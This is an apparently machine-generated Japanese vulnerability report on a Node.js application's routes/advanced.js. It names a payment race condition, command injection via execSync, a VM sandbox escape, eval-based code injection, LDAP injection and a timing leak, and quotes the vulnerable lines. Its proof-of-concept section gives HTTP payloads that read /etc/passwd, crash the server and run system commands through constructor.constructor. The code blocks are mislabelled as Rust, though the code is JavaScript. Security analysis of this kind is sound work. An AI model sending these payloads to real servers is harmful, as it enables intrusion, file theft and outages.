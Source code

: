 # 解析レポート

![中高信頼度](https://img.shields.io/badge/信頼度-中高-orange) **信頼度スコア: 85**

## 脆弱性タイプ

- `RCE`
- `AFO`
- `IDOR`

## 解析結果

このアプリケーションには多数の重大な脆弱性が含まれています。

1. ビジネスロジックのバイパス・レースコンディション (processPayment): 管理者トークンを与えるだけで金額を不正に乗算でき、TOCTOUのタイミングウィンドウで二重支払いや残高操作が可能です。
2. ファイル操作の脆弱性 (file/advanced-ops): パス・トラバーサル、任意ファイル書き込み、コマンドインジェクションが混在し、execSyncによるシェル実行でRCEが容易です。
3. VM サンドボックス脱出 (vm/execute): globalやprocessを公開し、constructor.constructorを使ったプロセス制御が可能で、タイムアウト制限も回避できます。
4. GraphQL ライクなクエリインジェクション (query/graph): evalを直接呼び出す設計で、ユーザ入力を含むクエリから任意コード実行が可能です。
5. LDAP インジェクション (ldap/search): フィルタ文字列を無検証で連結し、LDAPクエリを改竄できます。
6. タイミング攻撃 (distributed/coordinate): シークレット照合を文字ごとの遅延比較で行っており、タイミング攻撃により秘密値を漏洩できます。

## PoC（概念実証コード）

```text
1) ファイルコマンドインジェクション例
   POST /file/advanced-ops
   {"operation":"exec","source":"/etc/passwd"}
   => /etc/passwdの内容が取得可能

2) GraphQL-like RCE例
   POST /query/graph
   {"query":"{constructor.constructor('return process')().exit()}"}
   => サーバープロセスを強制終了

3) VM脱出例
   POST /vm/execute
   {"code":"return constructor.constructor('return require(\'child_process\').execSync(\'id\' )')()","context":{}}
   => 任意システムコマンド実行
```

## 関連コードコンテキスト

### 関数名: processPayment (レースコンディション)
- 理由: TOCTOUにより残高チェック後に別リクエストで残高を変更可能
- パス: routes/advanced.js
```rust
await new Promise(resolve => setTimeout(resolve, 100));
```

### 関数名: file/advanced-ops (コマンドインジェクション)
- 理由: user入力をそのままシェルコマンドに連結しRCEを誘発
- パス: routes/advanced.js
```rust
const output = execSync(`cat ${source} | head -10`, { encoding: 'utf8' });
```

### 関数名: vm/execute (VMサンドボックス脱出)
- 理由: globalやprocessを公開しconstructor.constructorによる脱出を許可
- パス: routes/advanced.js
```rust
script.runInNewContext(vmContext, { timeout });
```

### 関数名: query/graph (コードインジェクション)
- 理由: ユーザ制御のfieldをevalで実行できる設計
- パス: routes/advanced.js
```rust
return eval(field);
```

### 関数名: ldap/search (LDAPインジェクション)
- 理由: username, filterを無検証でLDAPフィルタに結合
- パス: routes/advanced.js
```rust
let ldapQuery = `(&(objectClass=person)(uid=${username})`;
```

### 関数名: distributed/coordinate (タイミング攻撃)
- 理由: 文字ごとの遅延比較で秘密文字列の照合時間を情報漏洩
- パス: routes/advanced.js
```rust
await new Promise(resolve => setTimeout(resolve, 10));
```

## 解析ノート

・プロセス支払いロジック: TOCTOU と adminToken チェックのバイパス
・ファイル操作: path traversal / write / execSync
・vm: sandbox に global/process を注入 -> constructor.constructor 脱出
・graph: eval(field) 組み込み -> コード実行
・ldap: フィルタ文字列の無検証連結
・distributed: 文字毎の setTimeout で秘密文字漏洩のチャンネル
・vulnerability_types: RCE, AFO, IDOR

